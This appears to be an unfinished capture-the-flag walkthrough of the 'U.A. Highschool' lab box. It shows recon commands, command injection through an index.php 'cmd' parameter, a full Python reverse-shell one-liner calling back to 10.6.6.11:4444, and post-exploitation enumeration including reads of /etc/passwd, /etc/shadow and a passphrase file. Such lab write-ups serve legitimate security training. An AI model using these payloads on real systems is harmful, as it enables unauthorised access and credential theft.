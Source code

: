 # U.A. Highschool CTF

## Recon
1. nmap -sS -oN nmap_initial.txt gives us open ssh and http ports. Lets get detail on the http port 
2. nmap -A -p80 -oN nmap_http.txt school.thm we have an apache web server running lets go ahead and look at the website
3. The webiste has a few forms but non seem functional there doesn't seem to be anything interesting in the sorce code.
4. gobuster dir -u http://school.thm -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 50 reveals only /assets and /server-status
5. Wild goose chase with Japanese word lists
6. the hint says be suspicous of any unused files lets look for files; we find an index.php
7. we have found LFI on index.php

## LFI Exploration

1. http://school.thm/assets/index.php?cmd=whoami gives us d3d3LWRhdGEK
2. base 64 decode shows user is www-data
3. http://school.thm/assets/index.php?cmd=cat /etc/apache2/sites-enabled/000-default.conf reveals some info see apache_conf.txt
4. we are able to reverse shell http://school.thm/assets/index.php?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.6.11",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);'


## Reverse Shell

1. stabalize with: python3 -c 'import pty; pty.spawn("/bin/bash")'
2. make terminal responsive export TERM=xterm
3. improve input handling: stty raw -echo; fg
4. www-data@myheroacademia:/var/www/html/assets$ whoami && hostname
www-data
myheroacademia
5. www-data@myheroacademia:/var/www/html/assets$ uname -a
Linux myheroacademia 5.4.0-153-generic #170-Ubuntu SMP Fri Jun 16 13:43:31 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
6. www-data@myheroacademia:/var/www/html/assets$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
7. www-data@myheroacademia:/var/www/html/assets$ df -h
Filesystem                         Size  Used Avail Use% Mounted on
/dev/mapper/ubuntu--vg-ubuntu--lv  9.8G  4.7G  4.7G  51% /
udev                               436M     0  436M   0% /dev
tmpfs                              481M     0  481M   0% /dev/shm
tmpfs                               97M  944K   96M   1% /run
tmpfs                              5.0M     0  5.0M   0% /run/lock
tmpfs                              481M     0  481M   0% /sys/fs/cgroup
/dev/loop0                          64M   64M     0 100% /snap/core20/1828
/dev/loop1                          50M   50M     0 100% /snap/snapd/18357
/dev/loop2                          92M   92M     0 100% /snap/lxd/24061
/dev/xvda2                         1.7G  108M  1.5G   7% /boot
8. /usr/bin/passwd
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/fusermount
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/umount
/usr/bin/at
/usr/bin/su
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/snap/core20/1828/usr/bin/chfn
/snap/core20/1828/usr/bin/chsh
/snap/core20/1828/usr/bin/gpasswd
/snap/core20/1828/usr/bin/mount
/snap/core20/1828/usr/bin/newgrp
/snap/core20/1828/usr/bin/passwd
/snap/core20/1828/usr/bin/su
/snap/core20/1828/usr/bin/sudo
/snap/core20/1828/usr/bin/umount
/snap/core20/1828/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1828/usr/lib/openssh/ssh-keysign
/snap/snapd/18357/usr/lib/snapd/snap-confine
9. www-data@myheroacademia:/var/www/html/assets$ find / -writable -type f 2>/dev/null
cat /etc/passwd | grep bash/var/www/html/assets/images/yuei.jpg
/var/www/html/assets/images/oneforall.jpg
/var/www/html/assets/index.php
/var/www/html/index.html
/var/www/html/about.html
/var/www/html/admissions.html
/var/www/html/contact.html
/var/www/html/courses.html
/var/www/Hidden_Content/passphrase.txt
10. www-data@myheroacademia:/var/www/html/assets$ cat /var/www/Hidden_Content/passphrase.txt
QWxsbWlnaHRGb3JFdmVyISEhCg== : AllmightForEver!!!
11. www-data@myheroacademia:/var/www/html/assets$ cat /etc/passwd | cut -d: -f1
root
daemon
bin
sys
sync
games
man
lp
mail
news
uucp
proxy
www-data
backup
list
irc
gnats
nobody
systemd-network
systemd-resolve
systemd-timesync
messagebus
syslog
_apt
tss
uuidd
tcpdump
landscape
pollinate
fwupd-refresh
usbmux
sshd
systemd-coredump
deku

lxd

11. su - deku fail
12. ssh deku@school.thm fail
13. www-data@myheroacademia:/var/www/html/assets$ cat /etc/shadow | grep deku
cat: /etc/shadow: Permission denied
14. www-data@myheroacademia:/var/www/html/assets$ netstat -tulnp
ps aux | grep deku(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 10.10.5.150:68          0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:55490           0.0.0.0:*                           -                   
www-data@myheroacademia:/var/www/html/assets$ 
15. www-data@myheroacademia:/var/www/html/assets$ ls -la /home/deku/
total 36
drwxr-xr-x 5 deku deku 4096 Jul 10  2023 .
drwxr-xr-x 3 root root 4096 Jul  9  2023 ..
lrwxrwxrwx 1 root root    9 Jul  9  2023 .bash_history -> /dev/null
-rw-r--r-- 1 deku deku  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 deku deku 3771 Feb 25  2020 .bashrc
drwx------ 2 deku deku 4096 Jul  9  2023 .cache
drwxrwxr-x 3 deku deku 4096 Jul  9  2023 .local
-rw-r--r-- 1 deku deku  807 Feb 25  2020 .profile
drwx------ 2 deku deku 4096 Jul  9  2023 .ssh
-rw-r--r-- 1 deku deku    0 Jul  9  2023 .sudo_as_admin_successful
-r-------- 1 deku deku   33 Jul 10  2023 user.txt
16 we found the flag but:
www-data@myheroacademia:/var/www/html/assets$ cat /home/deku/user.txt
cat: /home/deku/user.txt: Permission denied
17. ww-data@myheroacademia:/var/www/html/assets$ find / -perm -4000 -type f 2>/dev/null
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/fusermount
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/umount
/usr/bin/at
/usr/bin/su
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
18. looking back at the hint unused files : 
www-data@myheroacademia:/var/www/html/assets$ ls -la images/
total 336
drwxrwxr-x 2 www-data www-data   4096 Jul  9  2023 .
drwxrwxr-x 3 www-data www-data   4096 Jan 25  2024 ..
-rw-rw-r-- 1 www-data www-data  98264 Jul  9  2023 oneforall.jpg
-rw-rw-r-- 1 www-data www-data 237170 Jul  9  2023 yuei.jpg
oneforall.jpg isn't used on the site

